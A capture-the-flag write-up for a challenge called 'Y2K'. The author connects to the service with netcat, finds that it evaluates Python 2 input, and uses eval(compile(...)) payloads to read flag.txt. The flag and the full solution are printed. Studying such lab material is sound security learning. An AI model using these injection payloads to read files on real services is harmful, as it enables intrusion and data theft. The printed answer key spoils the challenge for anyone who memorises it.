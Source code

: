 # Y2K
408

They told us the world was going to end in the year 2000! But it didn't... when will the world end?

Open the Deployment tab to start this challenge.

# flag
```shell
flag{we_are_saved_from_py2_k}
```

# Solution

Deployment tab gives up the connection:

nc challenge.ctf.games 31656

Connecting to the server allows input from user. But what kind of input? Tried number strings, really long number strings. Server just echos input back with some flavor text. Not a buffer overflow. What about a sandbox?

Start with something simple:
```python
eval(compile('print "hello"', '<string>', 'exec'))
```

sending:
```shell
kali@kali:~$ nc challenge.ctf.games 31656
What year do YOU think the world will end?
eval(compile('print "hello"', '<string>', 'exec'))
hello
Yeah! I agree with you! I also think the world will end in the year 
None
```


Sweet. Let try some low hanging fruit:
```python
eval(compile('print open("./flag.txt", "r").readlines()', '<string>', 'exec'))
```
Success:
```shell

kali@kali:~$ nc challenge.ctf.games 31656
What year do YOU think the world will end?
eval(compile('print open("/home/challenge/flag.txt", "r").readlines()', '<string>', 'exec'))
['flag{we_are_saved_from_py2_k}']
Yeah! I agree with you! I also think the world will end in the year 
None
```